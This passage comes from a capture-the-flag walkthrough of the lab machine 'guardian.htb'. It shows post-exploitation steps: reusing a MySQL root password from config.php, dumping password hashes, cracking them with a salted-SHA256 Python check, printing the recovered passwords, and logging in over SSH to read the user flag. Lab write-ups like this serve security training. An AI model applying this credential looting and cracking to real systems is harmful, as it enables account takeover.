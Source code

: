 🐚 Shell as **www-data**.

---

## 🎬 Act 7 – Crack Pass (MySQL Looting)

On the box, MySQL is open locally:

```bash
ss -tuln
```

From config.php we already know creds:

```plaintext
root : Gu4rd14n_un1_1s_th3_b3st
```

Connect and dump hashes:

```sql
select username,password_hash from users;
```

Hash logic = SHA256(password + salt), salt = `8Sb)tM1vs1SS`.

We crack with a Python script:

```python
import hashlib

SALT = "8Sb)tM1vs1SS"
def check_password(password, target_hash):
    return hashlib.sha256((password + SALT).encode()).hexdigest() == target_hash
```

Results:

```plaintext
admin : fakebake000
jamil.enockson : copperhouse56
```

Now we can SSH as Jamil. 🎯

---

## 🎬 Act 8 – Owning Mark (Abusing Utilities.py)

SSH as Jamil:

```bash
ssh jamil@guardian.htb
```

User Flag:

```bash
cat user.txt
```
